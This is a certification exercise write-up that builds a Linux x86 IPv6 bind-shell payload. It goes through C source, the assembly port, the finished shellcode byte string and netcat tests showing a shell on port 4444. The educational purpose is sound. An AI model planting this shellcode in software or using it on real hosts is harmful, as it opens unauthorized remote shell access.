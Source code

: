 # Note

This MD file has been created for the SecurityTube Linux Assembly Expert certification (https://www.pentesteracademy.com/course?id=3). Student ID: 1483.

# IPv6

Let's try to change the code in order to listen on all IPv6 interfaces.

In order to better understand IPv6 structure, let's change the C code:

```C
#include <sys/socket.h>
#include <unistd.h>
#include <netinet/in.h>

int main()
{
	int my_socket = socket(AF_INET6, SOCK_STREAM, 0);

	struct sockaddr_in6 my_sockaddr;
	my_sockaddr.sin6_family = AF_INET6;
    	my_sockaddr.sin6_addr = in6addr_any;
    	my_sockaddr.sin6_port = htons(4444);
	bind(my_socket, (struct sockaddr *)&my_sockaddr, sizeof(my_sockaddr));

	listen(my_socket, 0);

	int my_accept = accept(my_socket, NULL, NULL);

	int i;
	for(i = 0; i < 3; i++)
		dup2(my_accept, i);

	execve("/bin/sh", NULL, NULL);

	return 0;
}
```
Let's compile and run the program in order to check it.

```
$ gcc bind_shell_ipv6.c -o C-bind6
$ ./C-bind6 
```

In another terminal:

```
$ netstat -laput |grep "4444"
tcp6       0      0 [::]:4444               [::]:*                  LISTEN      6358/C-bind6
$ nc ::1 4444
id
uid=1000(cervoise) gid=1000(cervoise) groups=1000(cervoise),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
exit
```

# ASM

Changes in the previous code are:
 * using a *sockaddr_in6* structure
 * using AF_INET6
 * using in6addr_any

##  *sockaddr_in6* structure

Using the manual, *sockaddr_in6* structure is easy to understand:

```
   Address format
           struct sockaddr_in6 {
               sa_family_t     sin6_family;   /* AF_INET6 */
               in_port_t       sin6_port;     /* port number */
               uint32_t        sin6_flowinfo; /* IPv6 flow information */
               struct in6_addr sin6_addr;     /* IPv6 address */
               uint32_t        sin6_scope_id; /* Scope ID (new in 2.4) */
           };
```

Regarding the previous shellcode, the length of *sin6_addr* is different (this will be handled later) and *sin6_flowinfo* must be pushed. This field was not used in the C code, let's fill it with null bytes. A *uint32_t* variable has the size of a register, so a null register will be pushed.

The size of *sockaddr_in6* is easy to get using C code:
```
$ cat sizeof.c
#include <sys/socket.h>
#include <unistd.h>
#include <netinet/in.h>

int main()
{
	int my_socket = socket(AF_INET6, SOCK_STREAM, 0);

	struct sockaddr_in6 my_sockaddr;
	my_sockaddr.sin6_family = AF_INET6;
    	my_sockaddr.sin6_addr = in6addr_any;
    	my_sockaddr.sin6_port = htons(4444);

	printf("%i\n", sizeof(my_sockaddr));

	return 0;
}
$ gcc sizeof.c -o sizeof
$ ./sizeof 
28
```

In IPv4 previous shellcode 0xa will be replace by 0x1c:

```
push 0x1c ;previously push 0xa
```

## AF_INET6

AF_INET6 value is easy to find:
```
$ for elmt in $(locate socket.h); do grep AF_INET6 $elmt; done
#define AF_INET6	10	/* IP version 6			*/
```
In IPv4 previous shellcode 0x2 will be replace by 0xa:

```
push word 0xa ;previously push word bx
```

## *in6addr_any*

*in6addr_any* value is easy to find:

```
$ for elmt in $(locate in.h); do grep -i IN6ADDR_ANY $elmt; done
extern const struct in6_addr in6addr_any;        /* :: */
#define IN6ADDR_ANY_INIT { { { 0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0 } } }
```

We will need to push a null register four times.

## Final shellcode

```ASM
global _start

section .text

_start:
	; socketcall
	xor eax, eax
	mov al, 0x66
	xor ebx, ebx
	mov bl, 1

	xor ecx, ecx
	push ecx
	push ebx
	push 0xa
	mov ecx, esp
	int 0x80

	mov edi, eax

	;bind
	xor eax, eax
	push eax
	push eax
	push eax
	push eax
	push eax
	push word 0x5c11
	push word 0xa
	mov edx, esp

	mov al, 0x66
	inc ebx
	push 0x1c
	push edx
	push edi
	mov ecx, esp

	int 0x80


	;listen
	xor eax, eax
	mov al, 0x66
	mov bl, 4
	push eax
	push edi
	mov ecx, esp
	int 0x80

	;accept
	mov al, 0x66
	inc ebx
	xor ecx, ecx
	push ecx
	push ecx
	push edi
	mov ecx, esp
	int 0x80

	xchg   ebx,eax
	
	;dup2 for loop
	xor ecx, ecx
	mov cl, 2

duploop:
	mov al, 0x3f	
	int 0x80
	dec ecx
	jns duploop	

	;execve
	mov al, 0xb
	xor ecx, ecx
	push ecx,
	push 0x68732f6e
	push 0x69622f2f
	mov ebx, esp
	cdq
	int 0x80
```

## Compilation


Let's compile everything:

```
$ bash compile.sh bind_shellcode_ipv6
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
$ bash get-shellcode.sh bind_shellcode_ipv6
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x0a\x89\xe1\xcd\x80\x89\xc7\x31\xc0\x50\x50\x50\x50\x50\x66\x68\x11\x5c\x66\x6a\x0a\x89\xe2\xb0\x66\x43\x6a\x1c\x52\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\xb3\x04\x50\x57\x89\xe1\xcd\x80\xb0\x66\x43\x31\xc9\x51\x51\x57\x89\xe1\xcd\x80\x93\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\xcd\x80"
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
$ ./shellcode 
Shellcode Length:  103
```

And check if everything is working in another terminal:
```
$ netstat -laput |grep 4444
tcp6       0      0 [::]:4444               [::]:*                  LISTEN      9469/shellcode  
$ nc ::1 4444
id
uid=1000(cervoise) gid=1000(cervoise) groups=1000(cervoise),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
exit
```

As for the IPv4 shellcode, a Python script could be done in order to automate the port configuration.
